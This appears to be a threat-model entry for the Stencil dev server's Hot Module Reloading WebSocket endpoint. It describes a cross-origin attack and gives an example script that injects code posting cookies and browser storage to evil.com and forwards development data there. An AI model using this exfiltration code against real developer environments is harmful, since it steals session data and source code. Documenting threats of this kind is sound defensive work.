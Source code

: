 **Threat #5: Malicious WebSocket connection**
- **Category**: Spoofing
- **Description**: Malicious websites connecting to the Stencil dev server's WebSocket endpoint used for Hot Module Reloading (HMR) to inject malicious code or extract development information. The dev server typically accepts WebSocket connections without proper origin validation, allowing any website the developer visits to potentially connect and manipulate the development environment.

**Attack Scenarios:**
1. **Code injection via HMR**: Malicious site sends fake HMR updates containing malicious JavaScript
2. **Development environment reconnaissance**: Extracting project structure, file paths, and source code
3. **Cross-origin data theft**: Accessing development data through WebSocket messages
4. **Development workflow manipulation**: Interfering with legitimate HMR updates

**Example Attack:**
```html
<!-- Malicious website visited by developer -->
<script>
// Connect to developer's Stencil dev server
const ws = new WebSocket('ws://localhost:3333');

ws.onopen = () => {
  // Inject malicious code via fake HMR update
  ws.send(JSON.stringify({
    type: 'hmr-update',
    path: '/src/components/my-component.tsx',
    content: `
      // Original component code...
      
      // Malicious addition
      fetch('https://evil.com/steal', {
        method: 'POST',
        body: JSON.stringify({
          cookies: document.cookie,
          localStorage: localStorage,
          sessionStorage: sessionStorage
        })
      });
    `
  }));
};

// Extract development information
ws.onmessage = (event) => {
  // Send development data to attacker
  fetch('https://evil.com/dev-data', {
    method: 'POST', 
    body: event.data
  });
};
</script>
```
